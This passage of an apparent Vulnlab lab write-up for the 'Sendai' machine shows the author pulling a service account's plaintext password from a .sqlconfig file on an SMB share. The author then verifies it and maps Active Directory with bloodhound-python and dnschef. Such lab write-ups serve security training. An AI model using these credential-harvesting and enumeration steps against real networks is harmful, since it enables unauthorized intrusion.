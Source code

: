 We found a `.sqlconfig` file in the share and copied it to Falcon.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai/smb-config]
└─$ smbclient -U 'Elliot.Yates' \\\\dc.sendai.vl\\config
Password for [WORKGROUP\Elliot.Yates]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jan  9 00:16:48 2025
  ..                                DHS        0  Wed Jul 19 19:41:25 2023
  .sqlconfig                          A       78  Tue Jul 11 18:27:11 2023

                7309822 blocks of size 4096. 603934 blocks available
```

The file contained the credentials of the user `sqlsvc`.

```
┌──(destiny㉿falcon)-[~/Vulnlab/Machines/Sendai/smb-config]
└─$ cat .sqlconfig  
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=SurenessBlob85;
```

We confirmed the credentials using CrackMapExec as well.

<img src="attachments/50a843ff300669029fd725b581658a17.png" />

#### Bloodhound Enumeration

We ran BloodHound-python to enumerate the AD network using the BloodHound graph.

```
bloodhound-python -d 'SENDAI.VL' -u 'Elliot.Yates' -p 'Password@123' -ns 127.0.0.1 -dc dc01.sendai.vl -c all
```

```
dnschef --fakeip 10.10.76.196
```
